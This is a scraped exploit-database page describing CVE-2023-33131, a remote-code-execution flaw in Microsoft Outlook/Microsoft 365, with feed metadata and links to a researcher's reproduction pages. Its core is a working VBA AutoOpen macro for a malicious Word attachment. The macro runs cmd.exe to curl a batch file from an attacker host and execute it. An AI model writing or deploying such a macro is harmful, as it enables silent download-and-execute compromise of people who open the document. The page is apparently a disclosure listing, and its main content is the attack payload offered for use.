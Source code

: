 ```yaml
---
title: Microsoft Outlook Microsoft 365 MSO (Version 2306 Build 16.0.16529.20100) 32-bit RCE Exploit exploit
url: https://sploitus.com/exploit?id=1337DAY-ID-38854&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-07-11
fetch_date: 2025-10-04T11:52:37.663655
---
```


# Microsoft Outlook Microsoft 365 MSO (Version 2306 Build 16.0.16529.20100) 32-bit RCE Exploit exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Microsoft Outlook Microsoft 365 MSO (Version 2306 Build 16.0.16529.20100) 32-bit RCE Exploit CVE-2023-33131

2023-07-10 | CVSS 8.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=1337DAY-ID-38854
## Title: Microsoft Outlook Microsoft 365 MSO (Version 2306 Build 16.0.16529.20100) 32-bit - Remote Code Execution
## Author: nu11secur1ty
## Date: 07.07.2023
## Vendor: https://www.microsoft.com/
## Software: https://outlook.live.com/owa/
## Reference: https://www.crowdstrike.com/cybersecurity-101/remote-code-execution-rce/
## CVE-2023-33131

## Description:
In this vulnerability, the Microsoft Outlook app allows an attacker to
send an infected Word file with malicious content
to everyone who using the Outlook app, no matter web or local.
Microsoft still doesn't have a patch against this 0-day vulnerability today.

## Staus: HIGH Vulnerability

[+]Exploit:

- The malicious Word file:

```js
Sub AutoOpen()
  Call Shell("cmd.exe /S /c" & "curl -s
https://attacker/namaikativputkata/sichko/nikoganqqsaopraite.bat >
nikoganqqsaopraite.bat && .\nikoganqqsaopraite.bat", vbNormalFocus)
End Sub

```

## Reproduce:
[href](https://github.com/nu11secur1ty/Windows11Exploits/tree/main/2023/CVE-2023-33131)

## Proof and Exploit
[href](https://www.nu11secur1ty.com/2023/07/cve-2023-33131-microsoft-outlook.html)

## Time spend:
00:30:00
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)
